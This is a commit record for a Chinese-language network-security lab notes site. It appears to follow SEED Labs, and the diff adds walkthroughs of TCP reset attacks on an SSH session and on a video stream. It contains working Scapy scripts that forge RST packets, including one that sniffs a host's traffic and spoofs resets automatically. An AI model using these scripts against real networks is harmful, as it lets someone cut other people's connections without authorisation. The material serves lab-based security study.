

Before and after one commit to cc3213252/note-seed-labs, an MkDocs documentation site: the page built from docs/tcp/rst-attack.md, in a window 1280 px wide and 1400 px high, scrolled down 4173 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
tcp会话劫持

````diff
--- a/docs/tcp/rst-attack.md
+++ b/docs/tcp/rst-attack.md
@@ -69,3 +69,72 @@ send(pkt, verbose=0)
 !!! warning
 
     wireshark中找序列号容易出错，一定要找最后一行服务端发给客户端的包
+    要用sudo权限
+
+## SSH连接中的TCP复位攻击
+
+!!! ssh连接
+
+    SSH的TCP连接是加密的，但是只加密了TCP数据，而不加密TCP头。即这个加密是在网络层之上的传输层进行的。因为
+    TCP复位攻击只需要伪造TCP头部，不需要加装任何数据，故TCP复位攻击可以成功。
+
+1、客户端ssh到服务端
+![正常ssh](../img/tcp-ssh-normal.png)
+
+2、确定需要设置的参数
+![抓ssh包](../img/tcp-ssh-wireshark.png)
+
+可以看到源端口号22，目标端口号44950，下一个序列号2920417518
+
+3、宿主机发动复位攻击
+
+```python
+#!/usr/bin/python3
+import sys
+from scapy.all import *
+
+print("SENDING RESET PACKET.....")
+IPLayer = IP(src="192.168.230.150", dst="192.168.230.151")
+TCPLayer = TCP(sport=22, dport=44950, flags="R", seq=2920417518)
+pkt = IPLayer/TCPLayer
+ls(pkt)
+send(pkt, verbose=0)
+```
+![发动攻击](../img/tcp-attack-ssh.png)
+
+4、可以看到客户端ssh被断开
+![被攻击](../img/tcp-ssh-beattack.png)
+
+!!! warning
+
+    wireshark输入ssh过滤显示
+    发动攻击时一定要用sudo权限！
+
+## 视频流连接中的TCP复位攻击
+
+!!! 视频流攻击难点
+
+    在于如何找序列号，这个过程不能在telnet终端输入任何内容，否则下一个序列号值会增加，由于没有办法停止
+    客户端和服务器之间的数据包，因此序列号增长的很快，无法使用手动方式来攻击。
+
+```python
+#!/usr/bin/python3
+from scapy.all import *
+
+
+def spoof_tcp(pkt):
+    IPLayer = IP(dst="192.168.230.1", src=pkt[IP].dst)
+    TCPLayer = TCP(flags="R", seq=pkt[TCP].ack, dport=pkt[TCP].sport, sport=pkt[TCP].dport)
+    spoofpkt = IPLayer/TCPLayer
+    send(spoofpkt, verbose=0)
+
+pkt = sniff(filter='tcp and src host 192.168.230.1', prn=spoof_tcp)
+
+```
+
+1、打开youtube.com的某一个视频
+2、执行攻击脚本，没有达到预期效果
+
+!!! warning
+
+    ubuntu虚拟机提供的firefox浏览器无法播放视频，改成用宿主机播放，执行脚本不起作用
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -61,6 +61,7 @@ nav:
         - TCP攻击背景: tcp/background.md
         - SYN泛洪攻击: tcp/syn-attack.md
         - TCP复位攻击: tcp/rst-attack.md
+        - TCP会话劫持攻击: tcp/session-attack.md
 
 theme:
     name: readthedocs
````
Also changed, not shown: docs/index.md (+1 -0 lines), docs/tcp/session-attack.md (added, +96 -0 lines), docs/img/tcp-attack-ssh.png (added), docs/img/tcp-attacker-nc.png (added), docs/img/tcp-nc-receive.png (added), docs/img/tcp-redirect-passwd.png (added), docs/img/tcp-redirect-shell.png (added), docs/img/tcp-server-echo.png (added), docs/img/tcp-shark-session.png (added), docs/img/tcp-ssh-beattack.png (added), docs/img/tcp-ssh-normal.png (added), docs/img/tcp-ssh-wireshark.png (added).
